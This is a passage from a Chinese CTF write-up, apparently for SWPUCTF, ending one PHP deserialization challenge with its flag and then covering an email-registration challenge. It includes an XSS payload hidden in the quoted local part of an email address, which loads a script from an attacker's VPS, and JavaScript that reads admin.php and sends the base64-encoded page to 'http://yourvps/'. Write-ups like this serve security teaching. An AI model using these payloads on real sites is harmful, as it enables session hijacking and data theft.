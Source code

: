 上传的最终文件路径为upload/md5(文件名+ip).jpg

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-a1154e3becd9ed09.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

触发反序列化

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-799d327cf5b3919e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-2d80b27d48622b6a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

flag：SWPUCTF`{`Php_un$eri4liz3_1s_Fu^!`}`

### <a name="%E6%9C%89%E8%B6%A3%E7%9A%84%E9%82%AE%E7%AE%B1%E6%B3%A8%E5%86%8C"></a>有趣的邮箱注册

访问admin.php会显示只有localhost才能访问，估计是要用xss来进行ssrf。

源码中发现check.php部分代码

```
&lt;?php
if($_POST['email']) `{`
$email = $_POST['email'];
if(!filter_var($email,FILTER_VALIDATE_EMAIL))`{`
echo "error email, please check your email";
`}`else`{`
echo "等待管理员自动审核";
echo $email;
`}`
`}`
?&gt;
```

可以看到利用了FILTER_VALIDATE_EMAIL过滤器来过滤注册的邮箱，是不安全的。

可以参考p神师傅的文章：[https://www.leavesongs.com/PENETRATION/some-tricks-of-attacking-lnmp-web-application.html](https://www.leavesongs.com/PENETRATION/some-tricks-of-attacking-lnmp-web-application.html)

邮箱地址分为local part和domain part两部分，local part中可以利用双引号来包含特殊字符。如”&lt;svg/onload=alert(1)&gt;”[@example](https://github.com/example).com是合法的

所以我们可以构造”&lt;scRipt/src=http://yourvps/123.js&gt;&lt;/scriPt&gt;”[@qq](https://github.com/qq).com进行xss。但是发现打到的cookie为空，所以只能利用ajax来读取后台页面。

```
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
`{`
    if (xmlhttp.readyState==4 &amp;&amp; xmlhttp.status==200)
    `{`
        document.location='http://yourvps/?'+btoa(xmlhttp.responseText);
    `}`
`}`
xmlhttp.open("POST","admin.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send();
```
